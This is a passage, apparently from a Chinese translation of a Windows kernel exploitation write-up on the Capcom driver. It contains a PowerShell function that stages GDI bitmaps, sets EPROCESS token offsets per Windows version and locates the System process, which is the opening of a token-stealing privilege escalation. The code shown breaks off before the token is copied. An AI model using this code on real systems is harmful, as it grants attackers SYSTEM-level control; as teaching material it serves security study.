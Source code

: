 EPROCESS结构是不透明的（未文档化），且不同的Windows系统会不同，但是我们能维护一个静态的偏移列表。我强烈推荐看一下[@rwfpl](https://twitter.com/rwfpl)的[Terminus Project](http://terminus.rewolf.pl/terminus/)。偷取令牌的逻辑的Powershell实现如下。



```
function Capcom-ElevatePID {
    param ([Int]$ProcPID)
    # Check our bitmaps have been staged into memory
    if (!$ManagerBitmap -Or !$WorkerBitmap) {
        Capcom-StageGDI
        if ($DriverNotLoaded -eq $true) {
            Return
        }
    }
    # Defaults to elevating Powershell
    if (!$ProcPID) {
        $ProcPID = $PID
    }
    # Make sure the pid exists!
    # 0 is also invalid but will default to $PID
    $IsValidProc = ((Get-Process).Id).Contains($ProcPID)
    if (!$IsValidProc) {
        Write-Output "`n[!] Invalid process specified!`n"
        Return
    }
    # _EPROCESS UniqueProcessId/Token/ActiveProcessLinks offsets based on OS
    # WARNING offsets are invalid for Pre-RTM images!
    $OSVersion = [Version](Get-WmiObject Win32_OperatingSystem).Version
    $OSMajorMinor = "$($OSVersion.Major).$($OSVersion.Minor)"
    switch ($OSMajorMinor)
    {
        '10.0' # Win10 / 2k16
        {
            $UniqueProcessIdOffset = 0x2e8
            $TokenOffset = 0x358          
            $ActiveProcessLinks = 0x2f0
        }
        '6.3' # Win8.1 / 2k12R2
        {
            $UniqueProcessIdOffset = 0x2e0
            $TokenOffset = 0x348          
            $ActiveProcessLinks = 0x2e8
        }
        '6.2' # Win8 / 2k12
        {
            $UniqueProcessIdOffset = 0x2e0
            $TokenOffset = 0x348          
            $ActiveProcessLinks = 0x2e8
        }
        '6.1' # Win7 / 2k8R2
        {
            $UniqueProcessIdOffset = 0x180
            $TokenOffset = 0x208          
            $ActiveProcessLinks = 0x188
        }
    }
    # Get EPROCESS entry for System process
    $SystemModuleArray = Get-LoadedModules
    $KernelBase = $SystemModuleArray[0].ImageBase
    $KernelType = ($SystemModuleArray[0].ImageName -split "\")[-1]
    $KernelHanle = [Capcom]::LoadLibrary("$KernelType")
    $PsInitialSystemProcess = [Capcom]::GetProcAddress($KernelHanle, "PsInitialSystemProcess")
    $SysEprocessPtr = $PsInitialSystemProcess.ToInt64() - $KernelHanle + $KernelBase
    $CallResult = [Capcom]::FreeLibrary($KernelHanle)
```